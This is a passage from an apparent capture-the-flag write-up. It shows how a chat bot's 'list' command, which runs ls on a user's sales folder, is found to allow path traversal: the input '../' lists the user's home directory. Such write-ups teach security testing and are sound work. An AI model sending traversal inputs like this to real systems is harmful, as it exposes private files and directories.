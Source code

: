 ```
Fetching the directory listing of /sales/ 

total 8
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 11 dwight dwight 4096 Mar 8 03:48 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 2021 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2
```

It looks like the output of the `ls -la` command.

Let's try to enter a non existent folder after `list`:

```
Fetching the directory listing of nonExistent

ls: cannot access '/home/dwight/sales/nonExistent': No such file or directory 
```

The error message discloses that this bot reads the content of the
`/home/dwight/sales` folder, and that whatever we pass him as arguments gets
appended after to this path.

#### LFI

Since we can give `recyclops` arguments that are appended to the
`/home/dwight/sales` path and used for `ls`, it may be vulnerable to path
traversal!

Let's check if this is the case by sending the bot a `list ../` message:

```
Fetching the directory listing of ../

total 32604
drwx------ 11 dwight dwight 4096 Mar 8 03:48 .
drwxr-xr-x. 3 root root 20 Mar 8 03:50 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 2021 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 9 Jan 22 06:26 .dbshell
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
drwx------ 3 dwight dwight 69 Jan 22 06:27 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 2021 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 2021 .hubot_history
-rw-rw-r-- 1 dwight dwight 6571921 Feb 26 14:57 linpeas_fat.sh
-rw-rw-r-- 1 dwight dwight 26641089 Feb 26 14:57 linpeas_fat.sh.1
drwx------ 3 dwight dwight 19 Jul 3 2021 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
-rwxrwxr-x 1 dwight dwight 9627 Mar 8 03:46 poc.sh
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 2021 .ssh
-r-------- 1 dwight dwight 33 Jan 22 05:53 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 2021 .vim
-rw------- 1 dwight dwight 1124 Mar 8 03:40 .viminfo
-rw-rw-r-- 1 dwight dwight 105322 Mar 8 03:32 wget-log
```
